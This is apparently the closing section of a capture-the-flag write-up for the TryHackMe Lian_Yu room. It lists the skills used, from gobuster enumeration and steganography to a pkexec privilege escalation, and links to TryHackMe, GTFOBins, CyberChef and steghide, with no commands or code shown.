## Skills Demonstrated

`Web Directory Enumeration (gobuster)` `Extension-Based Brute Forcing` `HTML Source Inspection` `Base58 Decoding` `FTP Enumeration` `File Signature Repair (hexedit)` `Steganography (steghide)` `SSH Access` `sudo Misconfiguration Enumeration` `GTFOBins Privilege Escalation (pkexec)`

## References

- [TryHackMe — Lian_Yu](https://tryhackme.com/room/lianyu)
- [GTFOBins — pkexec](https://gtfobins.github.io/gtfobins/pkexec/)
- [CyberChef](https://gchq.github.io/CyberChef/) — used for Base58 decoding
- [steghide — official tool page](http://steghide.sourceforge.net/)
